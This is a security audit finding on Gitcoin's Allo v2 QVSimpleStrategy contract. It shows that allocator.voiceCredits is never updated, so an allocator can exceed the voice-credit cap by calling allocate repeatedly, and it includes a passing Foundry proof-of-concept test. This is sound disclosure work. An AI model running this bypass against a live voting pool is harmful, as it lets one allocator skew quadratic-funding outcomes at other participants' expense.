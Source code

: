 # Allocators can allocate as much as they want in `QVSimpleStrategy`

There is a maximum limit for every allocator in the `QVSimpleStrategy`, but this limit only applies for each allocation call. Allocator can repetitively allocate voice credits up to maximum limit, and allocate as much as they want.

## Vulnerability Detail

Allocators allocate their `voiceCredits` to a recipient and the corresponding vote count of the recipient is calculated according to these `voiceCredits` in Quadratic Voting strategies.  
Allocators have a maximum limit to allocate which is determined during initialization with `maxVoiceCreditsPerAllocator` variable. Each allocator is tracked with `Allocator` struct.

```solidity
    /// @notice The details of the allocator
    struct Allocator {
        // slot 0
        uint256 voiceCredits;
        // slots [1...n]
        mapping(address => uint256) voiceCreditsCastToRecipient;
        mapping(address => uint256) votesCastToRecipient;
    }
```

`QVSimpleStrategy::_allocate()` function validates if the allocator has enough `voiceCredits` left with the internal `_hasVoiceCreditsLeft()` function.

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121)

```solidity
file: QVsimpleStrategy.sol 
   function _allocate(bytes memory _data, address _sender) internal virtual override {
        (address recipientId, uint256 voiceCreditsToAllocate) = abi.decode(_data, (address, uint256));

        // spin up the structs in storage for updating
        Recipient storage recipient = recipients[recipientId];
        Allocator storage allocator = allocators[_sender];

        // check that the sender can allocate votes
        if (!_isValidAllocator(_sender)) revert UNAUTHORIZED();

        // check that the recipient is accepted
        if (!_isAcceptedRecipient(recipientId)) revert RECIPIENT_ERROR(recipientId);

        // check that the recipient has voice credits left to allocate
-->     if (!_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)) revert INVALID(); //@audit allocator.voiceCredits is never updated. It is always 0.

        _qv_allocate(allocator, recipient, recipientId, voiceCreditsToAllocate, _sender);
    }
```

`_allocate()` function passes `voiceCreditsToAllocate` and `allocator.voiceCredits` parameters to the `_hasVoiceCreditsLeft` function. And the `_hasVoiceCreditsLeft` function is below:

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L144C1-L151C6](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121)

```solidity
    function _hasVoiceCreditsLeft(uint256 _voiceCreditsToAllocate, uint256 _allocatedVoiceCredits)
        internal
        view
        override
        returns (bool)
    {
        return _voiceCreditsToAllocate + _allocatedVoiceCredits <= maxVoiceCreditsPerAllocator;
    }
```

This function checks if the sum of the `_voiceCreditsToAllocate` (credits to be allocated) and `_allocatedVoiceCredits` (already allocated credits) is smaller than the max limit.

The reason for the vulnerability is that the already allocated voice credits are never updated. `allocator.voiceCreditsCastToRecipient` and `allocator.votesCastToRecipient` are updated in the [`QVBaseStrategy::_qv_allocate()`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L529C1-L530C69) function but [`allocator.voiceCredits`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121C59-L121C81) is never updated, and always 0.

## Coded PoC

You can use the protocol's own setup to prove the PoC below.  
\- Copy the code snippet and paste it into the `QVSimpleStrategy.t.sol` test file.  
\- Run it with `forge test --match-test test_allocateAgainAndAgainWithMaxVoiceCredit -vvvv`

```solidity
    //@audit Use the max voice credit and allocate repetitively.
    function test_allocateAgainAndAgainWithMaxVoiceCredit() public {
        address recipientId = __register_accept_recipient();
        address allocator = randomAddress();

        vm.startPrank(pool_manager2());
        // Add the allocator
        qvSimpleStrategy().addAllocator(allocator);
        
        // Start the allocation period
        vm.warp(allocationStartTime + 10);

        // Max voice credit is 100.
        // Create allocation data with max voice credit and another data with max voice credit + 1
        bytes memory allocateDataMaxCredit = __generateAllocation(recipientId, 100);
        bytes memory allocateDataMaxCreditPlus1 = __generateAllocation(recipientId, 101);
        vm.stopPrank();

        vm.startPrank(address(allo()));

        // Allocate with max credit.
        qvSimpleStrategy().allocate(allocateDataMaxCredit, allocator);

        // Allocate with max credit again.
        qvSimpleStrategy().allocate(allocateDataMaxCredit, allocator);

        // One more time :) https://www.youtube.com/watch?v=FGBhQbmPwH8
        qvSimpleStrategy().allocate(allocateDataMaxCredit, allocator);

        // We allocated 3 times with max voice credit.
        // Revert when we try only one time with max voice credit + 1.
        vm.expectRevert(abi.encodeWithSelector(INVALID.selector));
        qvSimpleStrategy().allocate(allocateDataMaxCreditPlus1, allocator);
    }
```

You can see the test results below:

```solidity
Running 1 test for test/foundry/strategies/QVSimpleStrategy.t.sol:QVSimpleStrategyTest
[PASS] test_allocateAgainAndAgainWithMaxVoiceCredit() (gas: 338291)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 18.58ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

Allocators can allocate as much as they want.

## Code Snippet

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121)

```solidity
        if (!_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)) revert INVALID();
```

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L144C1-L151C6](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121)

```solidity
    function _hasVoiceCreditsLeft(uint256 _voiceCreditsToAllocate, uint256 _allocatedVoiceCredits)
        internal
        view
        override
        returns (bool)
    {
        return _voiceCreditsToAllocate + _allocatedVoiceCredits <= maxVoiceCreditsPerAllocator;
    }
```

## Tool used

Manual Review

## Recommendation

Update the `allocator.voiceCredits` too after allocation.

---

**Note:** The original submission can be found [here](https://github.com/sherlock-audit/2023-09-Gitcoin-judging/issues/618).
